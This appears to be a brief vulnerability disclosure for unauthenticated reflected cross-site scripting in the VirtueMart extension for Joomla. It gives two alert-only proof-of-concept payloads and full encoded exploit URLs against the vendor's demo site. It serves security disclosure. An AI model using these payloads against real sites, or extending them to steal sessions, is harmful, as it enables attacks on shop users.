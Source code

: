 # Cross Site Scripting (XSS) in VirtueMart versions before < 4.4.10 for Joomla!

**CVE Link:** Pending

**VirtueMart:** https://virtuemart.net/download

## Introduction

### XSS 1
A unauthenticated reflected XSS vulnerability in VirtueMart extension 1.0.15 - 4.4.10 for Joomla was discovered.

## POC
Payload: `fghj"><img src=x onerror="self.alert('XSS POC')" class=test>`

Final Payload: https://demo.virtuemart.net/?Itemid=606&keyword=fghj%2522%253E%253Cimg%2520src%3Dx%2520onerror%3D%2522self.alert(%27XSS%2520POC%27)%2522%2520class%3Dtest%253E&option=com_virtuemart&view=category&virtuemart_category_id=13

![Alt text](VirtueMart_XSS-0.png)

### XSS 2

## POC
Payload: `&#39;&#34;&gt;&lt;img/src/onerror=.1|alert``&gt;`

Final Payload: https://demo.virtuemart.net/list-orders.html?layout=list&view=%26%2339%3B%26%2334%3B%26gt%3B%26lt%3Bimg%2Fsrc%2Fonerror%3D.1%7Calert%60%60%26gt%3B

![Alt text](VirtueMart_XSS-1.png)
